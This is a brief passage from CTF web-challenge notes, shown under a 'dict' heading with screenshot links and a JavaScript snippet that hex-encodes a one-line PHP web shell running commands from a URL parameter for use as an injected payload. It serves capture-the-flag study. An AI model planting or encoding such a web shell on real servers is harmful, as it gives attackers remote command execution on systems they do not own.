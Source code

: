 ![img](CTF_web.assets/1689445992524-f1c3229a-1074-4b13-9fab-6b3a0573a1dd.png)

#### dict

![img](CTF_web.assets/1689447145441-17d16e46-64e7-47b2-816d-01835b4399c2.png)

>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```
